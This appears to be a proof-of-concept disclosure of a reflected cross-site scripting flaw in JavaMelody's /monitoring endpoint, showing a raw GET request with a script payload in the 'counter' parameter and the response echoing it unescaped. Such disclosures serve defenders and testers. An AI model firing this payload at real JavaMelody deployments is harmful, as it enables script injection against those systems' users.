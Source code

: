 # JavaMelody 1.60.0 vulnerability Cross-Site Scripting
# This vulnerability maybe affected version <= 1.72.0

* Request:

GET /monitoring?action=clear_counter&counter=<script>alert(1)</script> HTTP/1.1

Host: victim

Accept-Encoding: gzip, deflate

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close



* Response:

HTTP/1.0 200 OK

Date: Wed, 13 Jun 2018 09:52:54 GMT

Server:

X-Frame-Options: SAMEORIGIN

X-XSS-Protection: 1; mode=block

X-Content-Type-Options: nosniff

Cache-Control: no-cache

Pragma: no-cache

Expires: -1

Vary: Accept-Encoding

Content-Type: text/html;charset=UTF-8

Connection: close

...

...

<script type='text/javascript'>
  
alert("Statistics <script>alert(1)</script> cleared.");

if (location.href.indexOf('?') != -1) {

location.href = location.href.substring(0, location.href.indexOf('?')) + '#<script>alert(1)</script>';} else {

location.href = '#<script>alert(1)</script>';}

</script>
